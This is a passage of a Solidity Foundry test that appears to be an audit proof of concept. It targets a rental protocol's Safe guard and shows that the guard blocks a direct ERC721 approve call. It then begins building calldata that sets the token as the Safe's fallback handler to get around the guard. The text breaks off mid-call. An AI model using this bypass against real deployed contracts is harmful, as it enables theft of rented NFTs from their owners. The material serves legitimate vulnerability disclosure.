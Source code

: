 ```solidity
import {SafeUtils} from "@test/utils/GnosisSafeUtils.sol";

    function test_Vuln_Bypass_CheckTransaction_ERC721_Approve() public {
        // Create a rentalId array
        RentalAssetUpdate[] memory rentalAssets = new RentalAssetUpdate[](1);
        rentalAssets[0] = RentalAssetUpdate(
            RentalUtils.getItemPointer(address(alice.safe), address(erc721s[0]), 0),
            1
        );

        // Mark the rental as actively rented in storage
        _markRentalsAsActive(rentalAssets);

        // Build up the `approve(address,uint256)` calldata
        bytes memory approveCalldata = abi.encodeWithSelector(
            e721_approve_selector,
            bob.addr,
            0
        );
        // ------- Identical to existing "test_Reverts_CheckTransaction_ERC721_Approve" until here -------
 
        address safe = address(alice.safe);
        address token = address(erc721s[0]);
        // Mint token with id 0 to safe
        // At this point it's marked as rented but doesn't exist yet
        erc721s[0].mint(safe);

        // Attempt to call approve via normal means
        bytes memory transactionSignature = SafeUtils.signTransaction(
            safe,
            alice.privateKey,
            token,
            approveCalldata
        );

        // Verify that transaction is blocked by guard
        vm.expectRevert(
            abi.encodeWithSelector(
                Errors.GuardPolicy_UnauthorizedSelector.selector,
                e721_approve_selector
            )
        );
        SafeUtils.executeTransaction(
            safe,
            token,
            approveCalldata,
            transactionSignature
        );

        // Verify that Bob cannot transfer the token
        vm.prank(bob.addr);
        vm.expectRevert();
        erc721s[0].transferFrom(safe, bob.addr, 0);

        // Build exploit calldata - sets token to callback handler
        bytes memory setFallbackHandlerCalldata = abi.encodeWithSelector(
            alice.safe.setFallbackHandler.selector,
            address(token)
        );

        // Sign and execute safe transaction
        transactionSignature = SafeUtils.signTransaction(
```